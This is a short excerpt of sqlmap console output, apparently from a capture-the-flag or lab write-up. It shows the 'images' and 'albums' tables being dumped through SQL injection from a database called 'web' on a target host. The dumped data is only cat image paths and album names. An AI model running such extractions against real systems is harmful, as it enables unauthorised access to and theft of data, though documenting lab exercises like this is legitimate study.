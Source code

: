     +----------------------------+
    | path                       |
    +----------------------------+
    | /var/www/images/cat1.jpg   |
    | /var/www/images/cat10.webp |
    | /var/www/images/cat11.webp |
    | /var/www/images/cat12.webp |
    | /var/www/images/cat13.jpg  |
    | /var/www/images/cat14.webp |
    | /var/www/images/cat15.webp |
    | /var/www/images/cat16.webp |
    | /var/www/images/cat2.jpg   |
    | /var/www/images/cat3.jpg   |
    | /var/www/images/cat4.jpg   |
    | /var/www/images/cat5.avif  |
    | /var/www/images/cat6.avif  |
    | /var/www/images/cat7.png   |
    | /var/www/images/cat8.webp  |
    | /var/www/images/cat9.webp  |
    +----------------------------+

[18:23:33] [INFO] table 'web.images' dumped to CSV file '/home/mrblue/.local/share/sqlmap/output/10.10.131.204/dump/web/images.csv'
[18:23:33] [INFO] fetching columns for table 'albums' in database 'web'
[18:23:33] [INFO] retrieved: 'short_tag','text'
[18:23:33] [INFO] retrieved: 'name','text'
[18:23:33] [INFO] retrieved: 'description','text'
[18:23:33] [INFO] fetching entries for table 'albums' in database 'web'
# ... (other album details) ...
Database: web
Table: albums
[3 entries]

     +----------------+-----------+--------------------------+
     | name           | short_tag | description              |
     +----------------+-----------+--------------------------+
     | Cute cats      | cute      | Cutest cats in the world |
     | Favourite cats | fav       | My favourite ones        |
     | Smart cats     | smart     | So smart...              |
     +----------------+-----------+--------------------------+
